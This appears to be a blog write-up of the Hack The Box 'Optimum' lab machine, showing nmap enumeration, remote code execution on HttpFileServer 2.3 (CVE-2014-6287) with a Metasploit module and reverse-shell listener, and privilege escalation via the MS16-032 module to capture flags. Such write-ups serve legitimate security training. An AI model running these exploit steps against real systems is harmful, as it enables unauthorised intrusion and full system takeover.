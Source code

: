 ```yaml
---
layout: post
title: HTB - Optimum Writeup
date: 2019-03-10
image: '/images/posts/htb/optimum/optimum.jpg'
categories: ["writeups"]
tags: ["writeups", "optimum", "htb"]
---
```


* Box: Optimum
  - Difficulty: Easy
  - Points: 20
  - Release: 18 Mar 2017
  - IP: 10.10.10.8


###Initial Enumeration

####1. Nmap Scanning

Starting with a scan of the target ip address:

`nmap -sC -sV -oA optimum.nmap 10.10.10.8`

The nmap scan shows only port 80 is open and the detected software is an outdated HttpFileServer 2.3.

<img src="/images/posts/htb/optimum/optimum1.jpg">

Accessing the webpage, we see it looks to be a file server used to access/archive files over the network. Let's look more into the HttpFileServer 2.3 version and investigate possible exploits.

The first serach reveals that this particular version has a remote command execution vulnerability
(CVE-2014-6287). Which conveniently, has a metasploit module available.

[CVE-2014-6287](https://www.exploit-db.com/exploits/39161)

###Exploitation

####2. Metasploit Module

Load up metasploit and simply load up the exploit for this CVE:

`use exploit/windows/http/rejetto_hfs_exec`<br>
`set RHOSTS 10.10.10.8`<br>
`set LHOSTS 10.10.14.9`<br>
`run`<br>

A shell will appear and you can find the user flag in the Desktop directory of the user "kostas".
The file will be named "**user.txt.txt**"

<img src="/images/posts/htb/optimum/optimum2.jpg">

<img src="/images/posts/htb/optimum/optimum3.jpg">


###Privilege Escalation

Now we have to get the root flag. Since we have a meterpreter session open, we can use local_exploit_suggester and look for possible vulnerabilities.

Simply run:

`use post/multi/recon/local_exploit_suggester` <br>
`set SESSION 1`<br>
`run`<br>

<img src="/images/posts/htb/optimum/optimum4.jpg">

We see 2 possible vulnerabilities. Trying the first doesn't work but this is because we are not in the admins group.
Trying the next one, logon_handle works for us.

`use windows/local/ms16_032_secondary_logon_handle_privesc`<br>
`set SESSION 1`<br>
`run`<br>

<img src="/images/posts/htb/optimum/optimum5.jpg">

The root flag is found at "C:\Users\Administrator\Desktop\root.txt"

<img src="/images/posts/htb/optimum/optimum6.jpg">
